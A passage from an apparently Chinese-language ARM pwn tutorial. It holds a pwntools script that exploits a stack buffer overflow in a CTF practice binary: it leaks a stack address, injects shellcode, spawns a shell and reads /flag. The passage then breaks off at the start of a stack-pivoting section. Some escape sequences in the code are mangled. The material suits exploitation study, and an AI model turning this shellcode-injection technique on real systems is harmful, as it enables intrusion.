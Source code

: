 ```
    elif False:
        sh = process(["qemu-arm", "-g", "2333", "-L", "/usr/arm-linux-gnueabihf", "./Stack_buffer_overflow_basic"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./Stack_buffer_overflow_basic"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

if __name__ == "__main__":
    sh = get_sh()
    sh.recvuntil('Give me data to dump:')
    sh.sendline('A')
    shellcode_addr = get_address(sh,32,'We get shellcode address is ','0x',':',True)
    shellcode = asm(shellcraft.sh())
    payload = shellcode.ljust(0xA4,'x90') + p32(shellcode_addr)
    sh.recvuntil('Dump again (y/n):')
    sh.sendline('y')
    sh.recvuntil('Give me data to dump:')
    sh.sendline(payload)
    sh.recvuntil('Dump again (y/n):')
    sh.sendline('n')
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

### <a class="reference-link" name="%E4%BB%A5Basic_ROP%E4%B8%BA%E4%BE%8B%20%E2%80%94%E2%80%94%20%E6%A0%88%E8%BF%81%E7%A7%BB%E5%AE%9E%E4%BE%8B"></a>以Basic_ROP为例 —— 栈迁移实例

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-17-115930.png)
